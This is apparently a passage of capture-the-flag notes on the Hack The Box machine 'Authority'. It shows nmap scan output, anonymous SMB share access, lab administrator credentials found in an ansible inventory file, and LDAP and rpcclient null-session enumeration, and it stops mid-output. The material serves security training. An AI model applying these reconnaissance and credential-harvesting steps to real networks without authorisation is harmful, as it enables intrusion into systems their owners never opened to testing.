





Active box: 45 points
Discovery
Nmap
sudo nmap -A -v -T4 -p0- 10.10.11.222
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2023-09-20 17:51:18Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after: 2024-08-09T23:13:21
| MD5: d49477106f6b8100e4e19cf2aa40dae1
| SHA-1: ddedb994b80c83a9db0be7d35853ff8e54c62d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after: 2024-08-09T23:13:21
| MD5: d49477106f6b8100e4e19cf2aa40dae1
| SHA-1: ddedb994b80c83a9db0be7d35853ff8e54c62d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
1928/tcp filtered emsd-port no-response
2850/tcp filtered metaconsole no-response
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after: 2024-08-09T23:13:21
| MD5: d49477106f6b8100e4e19cf2aa40dae1
| SHA-1: ddedb994b80c83a9db0be7d35853ff8e54c62d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after: 2024-08-09T23:13:21
| MD5: d49477106f6b8100e4e19cf2aa40dae1
| SHA-1: ddedb994b80c83a9db0be7d35853ff8e54c62d0b
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
4782/tcp filtered unknown no-response
5985/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp open ssl/https-alt syn-ack
9389/tcp open mc-nmf syn-ack .NET Message Framing
13679/tcp filtered unknown no-response
19742/tcp filtered unknown no-response
20528/tcp filtered unknown no-response
20656/tcp filtered unknown no-response
22636/tcp filtered unknown no-response
22748/tcp filtered unknown no-response
25186/tcp filtered unknown no-response
29453/tcp filtered unknown no-response
29920/tcp filtered unknown no-response
31889/tcp filtered unknown no-response
32348/tcp filtered unknown no-response
35610/tcp filtered unknown no-response
37195/tcp filtered unknown no-response
42374/tcp filtered unknown no-response
42643/tcp filtered unknown no-response
42883/tcp filtered unknown no-response
46378/tcp filtered unknown no-response
46749/tcp filtered unknown no-response
47001/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
48036/tcp filtered unknown no-response
49664/tcp open msrpc syn-ack Microsoft Windows RPC
49665/tcp open msrpc syn-ack Microsoft Windows RPC
49666/tcp open msrpc syn-ack Microsoft Windows RPC
49667/tcp open msrpc syn-ack Microsoft Windows RPC
49673/tcp open msrpc syn-ack Microsoft Windows RPC
49687/tcp filtered unknown no-response
49688/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
49689/tcp open msrpc syn-ack Microsoft Windows RPC
49691/tcp open msrpc syn-ack Microsoft Windows RPC
49692/tcp open msrpc syn-ack Microsoft Windows RPC
49695/tcp open msrpc syn-ack Microsoft Windows RPC
49700/tcp open msrpc syn-ack Microsoft Windows RPC
49713/tcp open msrpc syn-ack Microsoft Windows RPC
57275/tcp filtered unknown no-response
58434/tcp filtered unknown no-response
60837/tcp filtered unknown no-response
61075/tcp open msrpc syn-ack Microsoft Windows RPC
62837/tcp filtered unknown no-response
63837/tcp filtered unknown no-responseNessus
Enumeration
SMB
Anonymous share listing:
┌──(parallels㉿kali)-[~]
└─$ smbclient -N -L \\\\10.10.11.222
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Department Shares Disk
Development Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server shareAccessible stuff:
smbclient//10.10.11.222/Development-U "" -N
Interesting downloaded files:
ansible_inventory
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignoreLDAP
Base search:
ldapsearch -H ldap://10.10.11.222 -x -s base '' "(objectClass=*)" "*" +
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: (objectClass=*) * +
#
#
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=authority,DC=htb
ldapServiceName: authority.htb:authority$@AUTHORITY.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxDirSyncDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
supportedControl: 1.2.840.113556.1.4.319
...
supportedCapabilities: 1.2.840.113556.1.4.2237
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=authority,DC=htb
serverName: CN=AUTHORITY,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Con
figuration,DC=authority,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=authority,DC=htb
namingContexts: DC=authority,DC=htb
namingContexts: CN=Configuration,DC=authority,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=authority,DC=htb
namingContexts: DC=DomainDnsZones,DC=authority,DC=htb
namingContexts: DC=ForestDnsZones,DC=authority,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 262316
dsServiceName: CN=NTDS Settings,CN=AUTHORITY,CN=Servers,CN=Default-First-Site-
Name,CN=Sites,CN=Configuration,DC=authority,DC=htb
dnsHostName: authority.authority.htb
defaultNamingContext: DC=authority,DC=htb
currentTime: 20230920175001.0Z
configurationNamingContext: CN=Configuration,DC=authority,DC=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1RPC
rpcclient -U "" 10.10.11.222
rpcclient $> enumdomgroups
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> srvinfo
10.10.11.222 Wk Sv PDC Tim NT
platform_id : 500
os version : 10.0
server type : 0x80102b
rpcclient $> lsaenumsid
found 20 SIDs
S-1-5-90-0
S-1-5-9
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
S-1-5-80-0
S-1-5-6
S-1-5-32-568
S-1-5-32-559
S-1-5-32-554
S-1-5-32-551
S-1-5-32-550
S-1-5-32-549
S-1-5-32-548
S-1-5-32-545
S-1-5-32-544
S-1-5-21-622327497-3269355298-2248959698-501
S-1-5-20
S-1-5-19
S-1-5-11
S-1-1-0
rpcclient $> lsaquery
Domain Name: HTB
Domain Sid: S-1-5-21-622327497-3269355298-2248959698
S-1-5-90-0 Window Manager\Window Manager Group (5)
S-1-5-9 NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS (5)
